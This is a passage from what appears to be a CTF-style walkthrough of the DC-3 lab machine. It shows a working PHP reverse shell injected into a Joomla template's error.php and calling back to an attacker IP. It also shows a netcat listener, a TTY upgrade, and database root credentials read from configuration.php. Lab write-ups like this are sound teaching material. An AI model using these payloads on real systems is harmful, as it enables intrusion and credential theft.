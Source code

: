 
From the control panel, I navigated to **Extensions > Templates > Templates** and selected the `protostar` template. I then edited the `error.php` file. Inside `error.php`, I injected a PHP reverse shell payload.

<img width="1366" height="682" alt="image" src="https://github.com/user-attachments/assets/2aaf1560-8af6-4a1a-a0f4-6c402f8c5f01" />



The injected payload was:

```php
<?php system("bash -c 'bash -i >& /dev/tcp/192.168.1.5/4444 0>&1'"); ?>
```

Before triggering the shell, I set up a `netcat` listener on my attacking machine (192.168.1.5) on port 4444:

```shellscript
nc -lnvp 4444
```

After saving the modified `error.php`, I triggered the reverse shell by navigating to a non-existent page on the Joomla site (e.g., `http://192.168.1.19/nonexistentpage`). This executed the `error.php` file, and my `netcat` listener caught the connection:

```shellscript
Connection received on 192.168.1.19 60480
bash: cannot set terminal process group (1201): Inappropriate ioctl for device
bash: no job control in this shell
www-data@DC-3:/var/www/html$
```

I then upgraded to a fully interactive TTY shell:

```shellscript
python3 -c "import pty;pty.spawn('/bin/bash')"
```

## Privilege Escalation

### Initial Enumeration as `www-data`

As `www-data`, I started enumerating the system. I checked the `configuration.php` file in the web root, which often contains database credentials:

```shellscript
www-data@DC-3:/var/www/html$ cat configuration.php
```

This file contained the MySQL root credentials:

```php
public $user = 'root';
public $password = 'squires';
public $db = 'joomladb';
```

I used these credentials to log into the MySQL server:
